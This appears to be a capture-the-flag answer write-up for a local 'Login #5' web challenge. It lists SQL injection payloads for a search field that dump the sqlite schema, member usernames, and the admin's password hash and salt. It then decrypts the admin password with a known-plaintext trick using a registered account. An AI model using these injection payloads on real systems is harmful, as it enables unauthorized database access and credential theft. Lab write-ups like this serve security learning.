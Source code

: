 ## Login #5 Answer
See sources in `/ch6.py`

### Instructions:
1. Find the tables made in the sqlite db using the following command in the search bar on `/search`:
```
y" UNION SELECT sql FROM sqlite_schema; --
```
2. Find all usernames in the members database by running
```
y" UNION SELECT username FROM members WHERE True; -- 
```
3. Find the admin's password and salt
```
y" UNION SELECT hashed_password FROM members where username = "admin"; -- 
y" UNION SELECT password_salt FROM members WHERE username="admin"; --
```
5. Make an attacker account at `/register` with the password of all A's of `len(admin_password_encrypted)`
6. Then get the encrypted version of the account you just made which will just be the key
```
y" UNION SELECT password_hash FROM members WHERE username="attacker" -- 
```
4. Run `ch5.py` with the admin_password_encrypted and key found which will decrypt it
5. Enter `admin` in username box
6. Enter password returned from `ch6.py` in password box at `localhost:8080`